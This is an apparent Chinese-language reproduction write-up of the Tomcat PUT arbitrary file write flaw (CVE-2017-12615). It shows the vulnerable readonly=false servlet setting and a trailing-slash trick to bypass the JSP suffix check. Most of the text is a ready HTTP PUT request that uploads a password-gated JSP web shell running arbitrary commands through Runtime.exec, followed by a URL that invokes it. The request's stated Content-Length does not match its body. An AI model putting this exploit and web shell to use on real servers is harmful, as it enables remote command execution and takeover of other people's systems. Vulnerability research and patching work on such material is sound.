 # 通过PUT方法的Tomcat任意写入文件漏洞（CVE-2017-12615）

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包--->发包--->写入shell--->命令执行

### 0x01漏洞介绍

​				Tomcat设置了写许可权（readonly = false），这导致我们可以将文件写入服务器。

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

尽管Tomcat在某种程度上检查了文件后缀（无法直接编写jsp），但我们仍然可以通过某些文件系统功能（例如`/`在Linux中使用）来绕过该限制。



### 0x02漏洞复现

#### 		payload

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

```
http://192.168.68.132:8080/1.jsp?pwd=023&i=ls
```





### 0x03参考资料

https://www.cnblogs.com/qianxiao996/p/13574653.html